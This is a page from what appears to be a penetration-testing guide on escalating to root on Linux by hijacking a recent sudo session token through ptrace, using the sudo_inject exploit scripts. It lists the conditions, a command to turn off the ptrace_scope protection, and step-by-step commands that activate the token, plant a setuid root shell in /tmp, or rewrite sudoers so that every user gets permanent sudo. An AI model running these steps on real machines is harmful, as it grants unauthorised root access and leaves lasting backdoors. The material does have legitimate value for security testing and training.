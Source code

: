 linpeas.sh => ptrace vulnerability
In the scenario where you have a shell as a user with sudo privileges but you don't know the password of the user, you can wait him to execute some command using // sudo. Then, you can access the token of the session where sudo was used and use it to execute anything as sudo (privilege escalation).
Requirements to escalate privileges:
- You already have a shell as user "sampleuser"
- "sampleuser" have used sudo to execute something in the last 15mins (by default that's the duration of the sudo token that allows to use sudo without introducing any password)
- cat /proc/sys/kernel/yama/ptrace_scope is 0
- gdb is accessible (you can be able to upload it)
(You can temporarily enable ptrace_scope with echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope or permanently modifying /etc/sysctl.d/10-ptrace.conf and  setting kernel.yama.ptrace_scope = 0)
If all these requirements are met, you can escalate privileges using: https://github.com/nongiach/sudo_inject
The first exploit (exploit.sh) will create the binary activate_sudo_token in /tmp. You can use it to activate the sudo token in your session (you won't get  automatically a root shell, do sudo su):
```
bash exploit.sh
/tmp/activate_sudo_token
sudo su
//The second exploit (exploit_v2.sh) will create a sh shell in /tmp owned by root with setuid
bash exploit_v2.sh
/tmp/sh -p
//The third exploit (exploit_v3.sh) will create a sudoers file that makes sudo tokens eternal and allows all users to use sudo
bash exploit_v3.sh
sudo su
```


